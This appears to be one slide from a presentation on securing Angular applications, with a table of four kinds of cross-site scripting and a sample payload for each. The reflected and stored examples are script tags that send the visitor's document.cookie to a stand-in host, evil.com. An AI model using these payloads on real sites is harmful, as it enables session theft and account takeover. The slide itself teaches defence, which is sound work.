

# Secure your Angular Application XSS
| XSS type | Payload type | example |
| --- | --- | --- |
| Reflected | from request parameter | Check this out: http://weak- site.com/search? keyword=<script>window.location=‘http://evil.com?victimecookie=‘+document.cookie’</script> |
| Stored | stored server-side | LOL :p. <script>window.location='http://evil.com/?victimcookie='+document.cookie</script> |
| DOM based | introduced by DOM modification | <script>     document.write("<b>Current URL<b> : " + document.baseURI); </script> http://www.example.com/test.html#<script>alert(1)</script> |
| Mutation | mutated by browser | <!-- Attacker Input --> <img src="test.jpg" alt="``onload=xss()" /> <!-- Browser Output --> <IMG alt=``onload=xss() src="test.jpg"> |

25